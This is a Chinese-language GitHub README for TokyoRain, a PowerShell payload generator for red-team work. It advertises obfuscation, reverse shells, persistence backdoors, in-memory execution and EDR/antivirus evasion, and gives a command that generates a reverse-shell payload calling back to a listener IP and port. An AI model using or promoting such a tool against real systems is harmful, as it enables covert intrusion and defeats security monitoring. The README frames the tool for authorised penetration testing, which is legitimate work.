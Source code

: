 
---

# TokyoRain

[![GitHub stars](https://img.shields.io/github/stars/9Insomnie/TokyoRain?style=social)](https://github.com/9Insomnie/TokyoRain/stargazers)
[![License](https://img.shields.io/github/license/9Insomnie/TokyoRain)](https://github.com/9Insomnie/TokyoRain/blob/main/LICENSE)

---

## 项目简介

**TokyoRain** 是一款专注于生成隐蔽、混淆强且具有多种规避能力的 PowerShell 载荷的工具，适用于红队渗透测试和攻击模拟。该项目致力于帮助安全研究人员绕过终端检测与响应（EDR）、杀毒软件和防火墙，提升渗透效果和隐蔽性。

灵感来自东京的细雨，TokyoRain 载荷如同细雨般隐秘，悄无声息地渗透目标系统。

---

## 核心功能

* **多重混淆技术**：对 PowerShell 脚本进行多层混淆，防止静态分析和签名检测。
* **多种载荷模板**：支持反向Shell、命令执行、持久化后门等多种载荷类型。
* **内存执行支持**：支持将载荷直接注入内存执行，降低磁盘痕迹。
* **自动化参数配置**：通过命令行参数灵活配置攻击载荷（目标IP、端口、类型等）。
* **主流 EDR/AV 规避**：集成多种已知规避手法，提升攻击成功率。
* **兼容性强**：支持 Windows PowerShell 5.1 及以上版本，兼容多数企业环境。

---

## 环境要求

* Windows 系统
* PowerShell 5.1 及以上版本
* Git（用于克隆项目）

---

## 安装步骤

1. 克隆仓库到本地：

   ```bash
   git clone https://github.com/9Insomnie/TokyoRain.git
   cd TokyoRain
   ```

2. 确保 PowerShell 环境可用（Windows 默认自带）。

---

## 使用说明

### 基础用法

生成默认配置的 PowerShell 载荷文件：

```powershell
.\TokyoRain.ps1 -GeneratePayload -OutputPath ./payload.ps1
```

### 参数详解

| 参数                 | 说明                  | 示例               |
| ------------------ | ------------------- | ---------------- |
| `-GeneratePayload` | 生成载荷                | 必填               |
| `-OutputPath`      | 输出载荷的文件路径           | `./payload.ps1`  |
| `-Type`            | 载荷类型（ReverseShell等） | `ReverseShell`   |
| `-Lhost`           | 监听IP（反向连接目标IP）      | `192.168.1.100`  |
| `-Lport`           | 监听端口                | `4444`           |
| `-Obfuscate`       | 是否启用混淆（默认启用）        | `true` 或 `false` |
| `-MemoryExecution` | 是否支持内存执行            | `true` 或 `false` |

### 生成反向Shell示例

```powershell
.\TokyoRain.ps1 -GeneratePayload -Type ReverseShell -Lhost 192.168.1.100 -Lport 4444 -OutputPath ./rev_shell.ps1
```

### 查看帮助

```powershell
.\TokyoRain.ps1 -Help
```

---

## 注意事项

* 请确保您有合法授权后使用本工具，禁止未授权的攻击行为。
* 运行载荷时可能触发杀软报警，建议在测试环境验证。
* 载荷混淆级别越高，生成时间可能稍长。
* PowerShell执行策略可能限制脚本运行，建议调整为合适的执行策略，如 `RemoteSigned`。

---

## 贡献指南

欢迎贡献代码、报告问题或提出功能建议！
请先阅读并遵守 [行为准则](CODE_OF_CONDUCT.md) 和 [贡献指南](CONTRIBUTING.md)。

---

## 许可证

本项目采用 MIT 许可证，详见 [LICENSE](LICENSE) 文件。

---

## 免责声明

本项目仅限授权渗透测试和红队演练使用，严禁非法使用。使用者需对自身行为负责，造成的任何后果与项目作者无关。

---
